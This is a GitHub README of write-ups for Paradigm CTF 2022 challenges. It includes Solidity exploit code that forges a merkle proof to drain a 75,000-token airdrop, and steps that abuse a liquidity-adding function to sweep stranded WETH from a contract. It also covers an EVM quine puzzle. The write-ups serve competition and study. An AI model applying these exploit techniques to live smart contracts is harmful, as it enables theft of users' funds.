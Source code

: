 # Paradigm CTF 2022

Some challenges are slightly modified to run locally. Using [forge](https://github.com/foundry-rs/foundry) to run scripts.

```bash
forge script script/Random.s.sol
```

**Table of Contents**
- [RANDOM](#random)
- [MERKLEDROP](#merkledrop)
- [RESCUE](#rescue)
- [SOURCECODE](#sourcecode)
- [VANITY](#vanity)
- [HINTFINANCE](#hintfinance)

## Random

simple task. The meme comes from https://youtu.be/LP1t_pzxKyE?t=251

## MerkleDrop

This task requires you to claim all tokens from a merkle airdrop contract without claiming all the valid indices.

```solidity
function claim(uint256 index, address account, uint96 amount, bytes32[] memory merkleProof) external {
    require(!isClaimed(index), 'MerkleDistributor: Drop already claimed.');
    
    // Verify the merkle proof.
    bytes32 node = keccak256(abi.encodePacked(index, account, amount));
    require(MerkleProof.verify(merkleProof, merkleRoot, node), 'MerkleDistributor: Invalid proof.');
    
    // Mark it claimed and send the token.
    _setClaimed(index);
    require(ERC20Like(token).transfer(account, amount), 'MerkleDistributor: Transfer failed.');
    
    emit Claimed(index, account, amount);
}
```

`claim` from `MerkleDistributor`. `amount` is using type `uint96`, the payload for `claim` happens to be
256+160+96=512. This fits two leafs for the merkle proof. We can use the first two from any intermediate state when constructing the merkle proof.

Example of claiming index 0 with intermediate state.

```solidity
function tryIndex0() public {
    bytes32[] memory proofs = new bytes32[](6);
    proofs[0] = 0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a;
    proofs[1] = 0x0ae01ec0f7a50774e0c1ad35f0f5efcc14c376f675704a6212b483bfbf742a69;
    proofs[2] = 0x3f267b524a6acda73b1d3e54777f40b188c66a14a090cd142a7ec48b13422298;
    proofs[3] = 0xe2eae0dabf8d82b313729f55298625b7ac9ba0f12e408529bae4a2ce405e7d5f;
    proofs[4] = 0x01cf774c22de70195c31bde82dc3ec94807e4e4e01a42aca6d5adccafe09510e;
    proofs[5] = 0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5;
    dist.claim(0, 0x00E21E550021Af51258060A0E18148e36607C9df, 0x09906894166afcc878, proofs);

    // claim(uint256 index, address account, uint96 amount, bytes32[] proofs)
    bytes32 node = keccak256(abi.encodePacked(uint256(0), address(0x00E21E550021Af51258060A0E18148e36607C9df), uint96(0x09906894166afcc878)));
    emit log_named_bytes32("node", node);
    // node      = 0xa9e8f0fbf0d2911d746500a7786606d3fc80abb68a05f77fb730ded04a951c2d
    // proofs[0] = 0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a
    bytes32[] memory fakeProofs = new bytes32[](5);
    fakeProofs[0] = proofs[1];
    fakeProofs[1] = proofs[2];
    fakeProofs[2] = proofs[3];
    fakeProofs[3] = proofs[4];
    fakeProofs[4] = proofs[5];
    dist.claim(0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a, 0xa9e8F0FBF0d2911d746500A7786606d3fC80abb6, uint96(0x8a05f77fb730ded04a951c2d), fakeProofs);
}
```

We created a simple [script](src/MerkleDrop/findVictim.js) to test every index of the tree. Only two indices is within the valid range.

```
total: 75000
index:19, fakeAmount: 0x00000f40f0c122ae08d2207b=72033.43704913257, fakeAddr: 0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A, fakeIndex: 0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442
index:37, fakeAmount: 0x00000f40f0c122ae08d2207b=72033.43704913257, fakeAddr: 0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A, fakeIndex: 0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442
....
index: 8, amount: 2966
....
```

Using index 8 and fake 19/37 will empty the 75000 tokens.

## Rescue

Someone sent WETH to Sushi's MasterChef contract. This task requires us to move the WETH out of the contract.

```solidity
function swapTokenForPoolToken(uint256 poolId, address tokenIn, uint256 amountIn, uint256 minAmountOut) external {
    (address lpToken,,,) = masterchef.poolInfo(poolId);
    address tokenOut0 = UniswapV2PairLike(lpToken).token0();
    address tokenOut1 = UniswapV2PairLike(lpToken).token1();

    ERC20Like(tokenIn).approve(address(router), type(uint256).max);
    ERC20Like(tokenOut0).approve(address(router), type(uint256).max);
    ERC20Like(tokenOut1).approve(address(router), type(uint256).max);
    ERC20Like(tokenIn).transferFrom(msg.sender, address(this), amountIn);

    // swap for both tokens of the lp pool
    _swap(tokenIn, tokenOut0, amountIn / 2);
    _swap(tokenIn, tokenOut1, amountIn / 2);

    // add liquidity and give lp tokens to msg.sender
    _addLiquidity(tokenOut0, tokenOut1, minAmountOut);
}

function _addLiquidity(address token0, address token1, uint256 minAmountOut) internal {
    (,, uint256 amountOut) = router.addLiquidity(
        token0, 
        token1, 
        ERC20Like(token0).balanceOf(address(this)), 
        ERC20Like(token1).balanceOf(address(this)), 
        0, 
        0, 
        msg.sender, 
        block.timestamp
    );
    require(amountOut >= minAmountOut);
}
```

The idea is to trigger the `_addLiquidity` function when we call `swapTokenForPoolToken`.

* Buy exact `10 ether` amount of `DAI` and transfer to `MasterChef`
* Call `swapTokenForPoolToken` with any other tokens.
* When `MasterChef` calls router.addLiquidity, it tells the pool to take all its tokens, including the initial 10 WETH and DAI we transferred.

## SourceCode

This task requires you to write a [quine](https://en.wikipedia.org/wiki/Quine_(computing)) in EVM assembly.

A typical way to implement is:

```javascript
s = "; console.log('s =', JSON.stringify(s), s)" ; console.log('s =', JSON.stringify(s), s)
```

Similar way to do this in EVM

```solidity
// Part1
PUSH <Part2 CODE>
// Part2
DUP CODE             # memory: CODE:CODE
PUSH <PUSH>          # memory: PUSH:CODE:CODE
RETURN 
```

with some tweaks on code size, the [solution](https://www.evm.codes/playground?unit=Wei&codeType=Mnemonic&code='v7w806011526000526070600e536023600ef3yDUP1~11z~00z~70~0ez8~23~0eyRETURN'~yvwzyMSTOREy%5Cnw%200xvPUSH1%01vwyz~_) is

```
# ---- code -----------                          -------- stack ------  ----- memory ---------
PUSH17 0x806011526000526070600e536023600ef3      # code
DUP1                                             # code code
PUSH1 17                                         # 17 code code
MSTORE                                           # code                 0000 code
PUSH1 0                                          # 0 code               0000 code
MSTORE                                           #                      0000 code code
PUSH1 112                                        # 112 (PUSH17)
PUSH1 14                                         # 14 112
MSTORE8                                          #                      0000 PUSH17 code code
PUSH1 67                                         # 67
PUSH1 14                                         # 14 67
RETURN                                           # returns "PUSH17 code code"                     
```

`0x806011526000526070600e536023600ef3` is compiled from `DUP1 PUSH1 17 MSTORE PUSH1 0 MSTORE PUSH1 112 PUSH1 14
MSTORE8 PUSH1 67 PUSH1 14 RETURN`.

## Vanity

## HintFinance


  
  
  
